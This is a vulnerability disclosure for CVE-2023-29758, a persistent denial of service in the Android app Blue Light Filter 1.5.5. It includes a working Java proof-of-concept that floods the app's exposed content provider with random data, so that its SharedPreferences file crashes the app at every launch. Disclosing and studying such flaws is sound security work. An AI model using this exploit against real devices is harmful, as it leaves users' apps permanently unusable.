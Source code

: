 # Denial of Service exists in Blue Light Filter（CVE-2023-29758）

Vendor: Leap Fitness Group(https://leap.app/)

Affected product: Blue Light Filter(com.eyefilter.nightmode.bluelightfilter)

Version: 1.5.5

Download link： https://play.google.com/store/apps/details?id=com.eyefilter.nightmode.bluelightfilter

Description of the vulnerability for use in the CVE：An issue found in Blue Light Filter v.1.5.5 allows unauthorized apps to cause a persistent denial of service by manipulating the SharedPreference files.

Additional information: The Blue Light Filter application allows unauthorized applications to modify the data in its SharedPreference file through the interface provided by the exposed component, which is loaded into memory for use at application startup. Once an attacker injects an excessive amount of data, it triggers an OOM error and crashes, which eventually leads to a persistent denial of service as the data is stored persistently in the SharedPreference file.

poc:

```java
 public void attack_eye() {
        while(true) {
            ContentResolver contentResolver = getContentResolver();
            ContentValues contentValues = new ContentValues();
            Uri uri = Uri.parse("content://com.eyefilter.nightmode.bluelightfilter.PREFFERENCE_AUTHORITY/a/a");
            String randomString = getRandomString(1000);
            contentValues.put(randomString,randomString);
            contentResolver.insert(uri, contentValues);
        }
    }
```